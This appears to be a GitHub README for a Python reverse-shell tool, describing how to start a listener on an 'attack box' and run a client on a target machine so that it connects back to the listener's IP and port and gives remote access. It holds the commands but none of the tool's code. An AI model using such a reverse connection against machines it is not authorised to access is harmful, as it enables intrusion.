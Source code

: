 # Python-server-Client
A python server that acts as netcat listener.Gaining remote access to server/client.

## How to work with `Python-server-Client`

-Run `python3 server.py` to open server(Attack box)

![img](server.jpg)

-This sets listener to 192.168.43.148 on port 5004.

-On Targets machine run the client `python3 client.py 192.168.43.148`

![img](client.jpg)

This creates a reverse connection on the server.py page

![img](connect.jpg)

### NB: For this Python nc to work change the IP and Port number in the Scripts.
